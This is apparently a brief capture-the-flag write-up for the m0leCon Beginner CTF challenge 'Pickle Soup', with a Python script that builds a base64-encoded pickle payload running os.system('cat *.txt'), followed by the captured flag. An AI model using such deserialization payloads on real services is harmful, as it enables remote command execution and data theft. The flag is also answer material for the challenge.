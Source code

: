# m0leCon Beginner CTF

## Pickle Soup

> ...

## Approach

```python
import base64

payload = b'''\
(S'cat *.txt'
ios
system
.'''

payload = base64.b64encode(payload)
print(payload)  # b'KFMnY2F0ICoudHh0Jwppb3MKc3lzdGVtCi4='
```

## Flag

```
ptm{Th3_s3cr3t_1ngr3di3nt_w3re_th3_fri3nds_w3_m4de_4l0ng_th3_w4y}
```
